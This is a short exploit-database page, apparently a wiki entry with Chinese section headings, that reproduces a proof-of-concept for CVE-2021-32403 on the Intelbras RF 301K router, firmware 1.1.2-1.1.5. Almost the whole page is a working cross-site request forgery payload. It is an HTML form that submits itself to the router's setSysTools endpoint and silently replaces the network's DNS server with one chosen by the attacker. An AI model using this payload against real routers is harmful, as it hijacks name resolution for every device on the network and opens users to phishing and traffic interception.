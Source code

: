 <languages /> <translate>

影響版本
--------

</translate> Version: Firmware 1.1.2-1.1.5

EXP
---

    # Exploit Title: Intelbras Router RF 301K - 'DNS Hijacking' Cross-Site Request Forgery (CSRF)
    # Date: 01/05/2021
    # Exploit Author: Rodolfo Mariano
    # Version: Firmware 1.1.2-1.1.5
    # CVE: 2021-32403

    # Exploit Code:
    <html>
        <form action="http://10.0.0.1/goform/setSysTools" method="POST">
            <input name="module3" value="lanCfg" type="hidden">
            <input name="lanIP" value="10.0.0.1" type="hidden">
            <input name="lanMask" value="255.255.255.0" type="hidden">
            <input name="dhcpEn" value="true" type="hidden">
            <input name="lanDhcpStartIP" value="10.0.0.100" type="hidden">
            <input name="lanDhcpEndIP" value="10.0.0.200" type="hidden">
            <input name="lanDns1" value="192.168.0.30" type="hidden">
            <input name="lanDns2" value="" type="hidden">
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </html>